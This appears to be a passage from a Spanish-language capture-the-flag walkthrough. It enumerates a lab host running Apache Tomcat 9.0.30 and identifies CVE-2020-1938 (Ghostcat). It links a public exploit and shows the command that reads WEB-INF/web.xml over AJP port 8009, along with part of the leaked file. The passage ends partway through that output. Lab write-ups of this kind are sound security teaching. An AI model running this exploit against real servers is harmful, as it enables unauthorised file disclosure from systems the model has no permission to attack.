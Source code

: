 ```
|_http-title: Apache Tomcat/9.0.30
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.11 seconds
```

Vemos que hay un `tomcat` desplegado y el puerto por defecto del mismo es el `8080` el otro es para su funcionamiento, por lo que omitimos ese puerto, si entramos en dicho puerto:

```
URL = http://<IP>:8080/
```

De primeras vemos que tiene la siguiente version:

```
Apache Tomcat/9.0.30
```

Si realizamos un escaneo de la pagina, confirmamos que tiene dicha version:

```shell
whatweb http://<IP>:8080
```

Info:

```
http://172.17.0.2:8080 [200 OK] Country[RESERVED][ZZ], HTML5, IP[172.17.0.2], Title[Apache Tomcat/9.0.30]
```

Vamos a buscar si esa version de `tomcat` tuviera algun exploit asociado al mismo.

Vemos que si tiene asociada una vulnerabilidad, en concreto su `CVE` es el siguiente:

```
CVE-2020-1938
```

Y el exploit que vamos a utilizar esta en el siguiente repositorio:

URL = [Exploit Tomcat](https://github.com/dacade/CVE-2020-1938)

Lo descargamos y lo utilizaremos de la siguiente forma:

```shell
python3 exploit.py <IP> -p 8009 -f WEB-INF/web.xml
```

Info:

```
Getting resource at ajp13://172.17.0.2:8009/hissec
----------------------------
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
```